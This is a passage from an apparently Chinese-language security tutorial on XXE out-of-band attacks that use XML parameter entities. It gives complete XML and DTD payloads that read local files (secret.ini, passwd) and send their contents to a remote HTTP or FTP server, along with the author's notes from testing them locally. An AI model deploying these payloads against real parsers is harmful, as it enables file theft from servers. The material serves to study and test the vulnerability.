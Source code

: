 #### XXE OOB 攻击——参数实体

和前者类似，区别仅在于只使用参数实体，即这里的send为参数实体。

oob2.xml

```
<?xml version="1.0"?>
<!DOCTYPE data [
        <!ENTITY % remote SYSTEM "http://192.168.43.201/xxe/oob2.dtd">
        %remote;
        %send;
        ]>
<data>6</data>
```

oob2.dtd

```
<!ENTITY % payload SYSTEM "file:///e:/secret.ini">
<!ENTITY % param1 "<!ENTITY % send SYSTEM 'http://192.168.43.201:8000/?%payload;'>">
%param1;
```

但是本地测试出现问题，没成功：

![img](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/12.png)

#### XXE OOB 攻击——参数实体 FTP

最为经典的XXE攻击方式，通过FTP外带数据，攻击者可以读取到任意长度的文件而不受限于只读一行内容。

这里在本地进行测试。

ftp.xml

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
        <!ENTITY % file SYSTEM "file:///e:/passwd">
        <!ENTITY % remote SYSTEM "http://127.0.0.1/xxe/ftp.dtd">
        %remote;
        %all;
        ]>
<root>&send;</root>
```

ftp.dtd

```
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://127.0.0.1:21/%file;'>">
```

运行可以看到，FTP服务端日志只能接收到一行的内容，因为其默认处理的方式会受到换行符等字符的影响：

![img](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/14.png)

**自行编写FTPServer处理字符输出格式**
